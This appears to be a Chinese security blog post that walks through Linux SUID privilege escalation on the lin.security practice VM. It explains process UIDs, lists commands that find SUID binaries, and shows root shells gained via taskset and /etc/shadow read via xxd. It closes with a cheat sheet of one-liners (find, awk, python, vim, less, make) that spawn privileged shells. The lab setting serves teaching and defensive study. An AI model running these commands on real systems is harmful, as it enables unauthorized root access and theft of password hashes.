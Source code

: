 ```yaml
---
title: "Linux提权之suid提权"
date: 2023-06-27T16:47:35+08:00
draft: false
categories:
- 内网安全
tags:
- 提权
---
```


环境：靶场[insecurity](https://in.security/downloads/lin.security_v1.0.ova)
# 什么是suid
SUID是赋予文件的一种特殊权限，具有这种特殊权限的文件会在其执行时，使调用者暂时获得该文件属主的权限。如果某些现有的二进制文件和实用程序具有SUID权限的话，就可以在执行时将权限提升为root。
SUID提权的原理与Linux进程的UID有关，进程在运行的时候有以下三个UID：
```
（A）Real UID：执行该进程的用户的UID。Real UID只用于标识用户，不用于权限检查。
（B）Effective UID（EUID）：进程执行时生效的UID。在对访问目标进行操作时，系统会检查EUID是否有权限。一般情况下，Real UID与EUID相同，但在运行设置了SUID权限的程序时，进程的EUID会被设置为程序文件属主的UID。
（C）Saved UID：在高权限用户降权后，保留的UID。
```
如果某个设置了SUID权限的程序运行后创建了shell，那么shell进程的EUID也会是这个程序文件属主的UID，如果属主为root，便是一个root shell。root shell中运行的程序的EUID也都是0，具备超级权限，于是便实现了提权。
使用`chmod  u+s  [文件]`命令为文件配置SUID权限。
# 提权操作
suid提权其实就是查找具有特定suid权限的参数，再利用其参数进行提权命令调用。suid提权仅对可执行二进制文件有效。
查看本机用有suid权限的文件：
```
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
```
![](https://s2.loli.net/2022/10/14/zIuHJPSRo1kTWie.png)
- taskset

  执行命令` taskset 1 /bin/bash -p`，成功获取到root权限，提权成功
  ![](https://s2.loli.net/2022/10/14/Z1TGsXDz6lm4Sn2.png)

- xxd
  
  ![](https://s2.loli.net/2022/10/14/ERVxY5msIcX8bS3.png)
  
- 发现itservices组具有执行权限，查看所属组用户：`cat /etc/group | grep itservices`
  
  ![](https://s2.loli.net/2022/10/14/zhU9coCD1iOm4fB.png)
  
  存在用户susan，使用上一篇发现的susan密码登录
  
  ![](https://s2.loli.net/2022/10/14/KbApkFh8VO31fu5.png)
  
  susan无法访问shadow文件，说明权限不够，使用xxd提权访问shadow文件：`xxd "/etc/shadow" | xxd -r`
  
  ![](https://s2.loli.net/2022/10/14/yRYsT4ka65cXHdo.png)
  
- 其他
  常用的suid提权有`nmap`、`vim`、`find`、`bash`、`more`、`less`、`nano`和`cp`等，但这些在靶场不具备环境
  - find:`find . -exec /bin/sh -p \; -quit` 
  - bash:`bash -p`
  - awk:`awk 'BEGIN {system("/bin/bash")}'`
  - ruby:`exec "/bin/bash";`
  - python:`python -c 'import os; os.execl("/bin/sh","sh","-p")'`
  - cp:`sh -c 'cp $(which cp) .; chmod +s ./cp'`
  - chmod:`sh -c 'cp $(which chmod) .; chmod +s ./chmod'`
  - flock:`flock -u / /bin/sh -p`
  - vim:
    ```
    vim.tiny
    # Press ESC key
    :set shell=/bin/sh
    :shell
    ```
  - less:
    ```
    less /etc/passwd
    !/bin/sh
    ```
  - man:
    ```
    man passwd
    !/bin/bash
    ```
  - make
    ```
    COMMAND=’/bin/sh -p’
    make -s –eval=$’x:\n\t-‘”$COMMAND”
    ```
   # 参考文章
   
   http://blog.nsfocus.net/linux/
   
   http://t.zoukankan.com/tomyyyyy-p-14659298.html